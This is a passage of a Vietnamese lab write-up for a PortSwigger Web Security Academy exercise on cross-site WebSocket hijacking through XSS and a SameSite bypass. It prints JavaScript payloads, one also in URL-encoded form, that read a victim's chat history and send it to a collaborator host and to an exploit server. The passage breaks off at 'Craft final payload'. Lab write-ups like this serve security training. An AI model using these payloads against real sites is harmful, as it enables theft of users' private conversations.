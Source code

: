 => tận dụng lỗ hổng xss này để chèn vào đoạn mã in ra chat history của victim. 

(Do server sử dụng samesite strict, nên nếu payload exploit gọi trực tiếp url /chat, thì server sẽ không gửi kèm session của victim, nhưng nếu url /chat được gọi thông qua việc khai thác lỗ hổng xss của trang cms-... (thực thi đoạn mã js bất kì) thì session lại được gửi kèm, giống như người dùng tự truy cập url => khi đó ta sẽ thấy ddwuocj chat history của victim)

- Bypass samesite restrictions: 

  ```
  <script>
      var ws = new WebSocket('wss://0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://kth0b938gipooc07882lq79fp6vxjx7m.oastify.com.oastify.com.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
  ```

  Hoặc có thể sử dụng exploit server để nhận message luôn: 

  ```
  <script>
      var ws = new WebSocket('wss://0ade001903f880e5a4c8b4e100d500ce.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch("https://exploit-0aa200c703ec80eea475b3550148001b.exploit-server.net/exploit?message="+ btoa(message));
      };
  </script>
  ```

  url encode cả script trên:

  ```
  %3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%65%30%30%31%39%30%33%66%38%38%30%65%35%61%34%63%38%62%34%65%31%30%30%64%35%30%30%63%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%33%68%6c%6a%7a%73%72%72%34%31%64%37%63%76%6f%71%77%72%71%34%65%71%78%79%64%70%6a%67%37%66%76%34%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
  ```

  Craft final payload:
